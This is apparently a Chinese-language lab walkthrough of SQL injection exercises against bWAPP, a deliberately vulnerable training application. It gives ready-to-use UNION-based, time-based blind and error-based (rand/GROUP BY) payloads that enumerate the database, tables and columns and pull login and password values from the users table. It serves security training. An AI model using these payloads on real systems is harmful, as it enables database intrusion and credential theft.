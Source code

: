 ## 3.1 SQL Injection (GET/Search)

```
step1:在输入框中输入, 直到试出字段个数为7
man' union select 1,2,3,4,5,6,7 from information_schema.tables where table_schema=database();-- 

step2:在输入框中输入:
man' union select 1,database(),3,4,table_name,6,7 from information_schema.tables where table_schema=database();-- 

step3:在输入框中输入:
man' union select 1,database(),3,4,column_name,6,7 from information_schema.columns where table_name='users';-- 

step4:在输入框中输入:
man' union select 1,login,3,4,password,6,7 from bWAPP.users; -- 
```

## 3.2 SQL Injection (Blind Time-Based)

```
step1:在输入框中输入:
1' or sleep(1) # 
F12打开调试器, 观察network中响应时间, 如果延迟了, 表明可能存在SQL注入漏洞
```

## 3.3 stored user-agent

```
基本原理就是在请求时，在 user-agent 中依次获取数据库名，表名，字段名，字段值等。
一般较少出现
```

## 3.4 erro-based blind sql injection

### 3.4.1 rand

```
mysql 5.7 时，这种方式就不能用了
1.选择 GET/SEARCH 进行 hack

2.获取数据库名
1' union SELECT 1,2,3,4,5,count(*),concat((SELECT database()),'~',floor(rand(0)*2))x  FROM information_schema.TABLES GROUP BY x # 

3.获取表名
1' union SELECT 1,2,3,4,5,count(*),concat((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1),'~',floor(rand(0)*2))x  FROM information_schema.TABLES GROUP BY x # 


4.获取表中字段名
1' union SELECT 1,2,3,4,5,count(*),concat((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1),'~',floor(rand(0)*2))x  FROM information_schema.TABLES GROUP BY x # 


5.获取字段1' union SELECT 1,2,3,4,5,count(*),concat((SELECT login FROM users LIMIT 1),'~',floor(rand(0)*2))x  FROM information_schema.TABLES GROUP BY x # 
```
